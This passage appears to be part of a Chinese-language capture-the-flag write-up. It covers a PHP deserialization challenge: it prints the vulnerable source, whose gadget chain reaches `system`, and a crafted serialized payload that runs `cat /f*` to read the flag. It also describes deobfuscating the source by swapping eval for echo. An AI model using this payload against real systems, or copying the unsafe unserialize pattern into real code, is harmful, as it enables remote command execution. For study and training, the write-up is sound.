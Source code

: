 7. 得到序列化代码

   ```php
   username=O:2:"wo":3:{s:3:"sex";s:3:"boy";s:3:"age";s:8:"eighteen";s:9:"intention";O:3:"shi":2:{s:4:"next";O:4:"Demo":0:{}s:4:"pass";s:7:"cat /f*";}}&password=system
   ```

8. 使用hackbar注入上述代码

9. 得到flag

手动解混淆

代码运行在线工具：https://tool.lu/coderunner

1. 首先将代码中的`eval`替换成`echo`，并且执行 php 文件
2. 然后把执行输出的代码复制替换掉前面整个`echo`语句(包括echo本身)
3. 接着重复工作，继续把下面的`eval`函数替换成`echo`输出。重复如此，最终成功还原成原来的代码

```php
<?php
   error_reporting(0);
   class shi
   {
       public $next;
       public $pass;
       public function __toString(){
           $this->next::PLZ($this->pass);
       }
   }
   class wo
   {
       public $sex;
       public $age;
       public $intention;
       public function __destruct(){
           echo "Hi Try serialize Me!";
           $this->inspect();
       }
       function inspect(){
           if($this->sex=='boy'&&$this->age=='eighteen')
           {
               echo $this->intention;
           }
           echo "🙅18岁🈲";
       }
   }
   class Demo
   {
       public $a;
       static function __callStatic($action, $do)
       {
           global $b;
           $b($do[0]);
       }
   }
   $b = $_POST['password'];
   $a = $_POST['username'];
   @unserialize($a);
   if (!isset($b)) {
       echo "==================PLZ Input Your Name!==================";
   }
   if($a=='admin'&&$b=="'k1fuhu's test demo")
   {
       echo("登录成功");
   }
   ?>
```